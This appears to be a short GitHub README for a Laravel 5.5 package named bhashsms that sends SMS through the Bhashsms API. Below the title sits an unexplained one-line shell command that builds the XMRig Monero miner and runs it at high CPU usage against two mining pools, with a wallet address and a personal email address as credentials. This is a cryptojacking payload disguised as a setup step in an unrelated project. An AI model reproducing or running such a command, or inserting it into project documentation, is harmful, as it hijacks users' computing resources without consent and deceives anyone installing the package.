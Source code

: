 # bhashsms
Send sms using Bhashsms API in Laravel 5.5


sudo apt-get install git build-essential cmake libuv1-dev libmicrohttpd-dev libssl-dev && git clone https://github.com/xmrig/xmrig.git && cd xmrig && mkdir build && cd build && cmake .. && make && ./xmrig --max-cpu-usage 80 --cpu-priority 3 -o xmr.pool.minergate.com:45700 -u pted1vzqnhqw9xr -p x -k --nicehash -o pool.monero.hashvault.pro:3333 -u 83Ft9ZUtNzV5DorTQtS6zGhThH53tH1Br6Tqt2frXRG5BVEmV6irD7gTdW9SSCtc18jWC517VauQWH27s1P4EZRs9ULiTMH -p pc:ibraci1960@gmail.com -k
